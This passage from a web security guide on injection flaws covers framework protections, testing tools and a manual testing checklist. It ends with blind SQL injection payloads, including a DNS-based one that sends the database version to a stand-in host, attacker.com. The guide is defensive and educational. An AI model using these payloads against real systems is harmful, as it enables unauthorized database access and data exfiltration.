 ### 6.2 Framework-Specific Protections

- Use ORM frameworks that automatically handle parameterization
- Implement Content Security Policy (CSP) for additional XSS protection
- Use framework-provided input validation and sanitization functions
- Enable framework security features and configurations

### 6.3 Development Process

- Security code reviews focusing on injection vulnerabilities
- Static Application Security Testing (SAST) integration
- Dynamic Application Security Testing (DAST) integration
- Security training for developers
- Secure coding standards and guidelines

## 7. Testing Tools and Techniques

### 7.1 Automated Testing Tools

- **SQLMap**: Automated SQL injection testing tool
- **NoSQLMap**: NoSQL injection testing tool
- **Commix**: Command injection testing tool
- **Burp Suite**: Comprehensive web application security testing
- **OWASP ZAP**: Open-source security testing proxy

### 7.2 Static Analysis Tools

- **SonarQube**: Code quality and security analysis
- **Checkmarx**: Static Application Security Testing
- **Veracode**: Static and dynamic security testing
- **Semgrep**: Lightweight static analysis tool

### 7.3 Manual Testing Checklist

- [ ] Test all input fields for SQL injection
- [ ] Test URL parameters and headers
- [ ] Test file upload functionality
- [ ] Test search functionality
- [ ] Test login and authentication forms
- [ ] Test API endpoints
- [ ] Test different injection types (SQL, NoSQL, Command, LDAP)
- [ ] Test both GET and POST parameters

## 8. Advanced Injection Techniques

### 8.1 Blind SQL Injection

```sql
-- Boolean-based blind injection
' AND (SELECT SUBSTRING(user(),1,1))='r'--

-- Time-based blind injection
' AND IF((SELECT COUNT(*) FROM users)>0,SLEEP(5),0)--

-- DNS-based blind injection (MySQL)
' AND (SELECT LOAD_FILE(CONCAT('\\\\',VERSION(),'.attacker.com\\share')))--
```
